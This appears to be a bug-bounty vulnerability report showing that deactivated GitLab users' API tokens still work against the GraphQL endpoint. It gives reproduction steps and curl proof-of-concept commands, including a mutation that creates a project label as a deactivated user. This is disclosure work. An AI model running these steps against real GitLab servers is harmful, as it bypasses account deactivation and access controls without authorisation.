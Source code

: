 prevents from using mutations if I understand the code correctly.

__tested on 13.11.1:__  (Prior to latest security patch 13.11.2) A deactivated user can (without activating its account) use queries and mutations on the GraphQL endpoint.

### Steps to reproduce

__Unlimited service accounts__
1. Login as admin
2. Create a user
3. Deactivate the user
4. Create an api token for the deactivated user
5. Use the token in GraphQL requests such as (replacing url and token)
```
curl 'https://gitlab.com/api/graphql' -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer <<TOKEN>>' --data '{"query":"{\n  currentUser{id}\n}"}'d
```

__User with deactivated account__
1. Use any old token from your deactivated account in requests such as
```
curl 'https://gitlab.com/api/graphql' -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer <<TOKEN>>' --data '{"query":"{\n  currentUser{id}\n}"}'d
```

__or on servers prior to 13.11.2 (tested on 13.11.1)__
1. Login as admin
2. Create a user
3. Deactivate the user
4. Create an api token for the deactivated user
5. Add the user to a project with (use admin token, and a real project id)
```
curl --header "Authorization: Bearer <<ADMIN TOKEN>>" "https://gitlab.domain.com/api/v4/projects//members" --data "user_id=2&access_level=40"
```
6. Then perform a mutation with the disabled account:
```
curl 'https://gitlab.domain.com/api/graphql' -H 'Content-Type: application/json' -H 'Accept: application/json' -H 'Authorization: Bearer <<DEACTIVATEDTOKEN>>' --data '{"query":"mutation {\n  labelCreate(input:{title:\"deactivated\", projectPath:\"test1/test1\"}){\n    errors\n    label{\n      id\n    }\n  }\n}"}'
```
to create a label in the project.

### Impact

For GitLab it could lead to loss of revenue due to the ability to create accounts that are not billabel but "usable". At the moment the GraphQL API is a bit limited but will probably grow in scope.

For users. Running the risk of missing warnings about disabled accounts. Could lead to deletion of account if admins does not notice that the account is being used.

### Examples

I would guess that this is affecting GitLab.com but can not create a disabled account there.
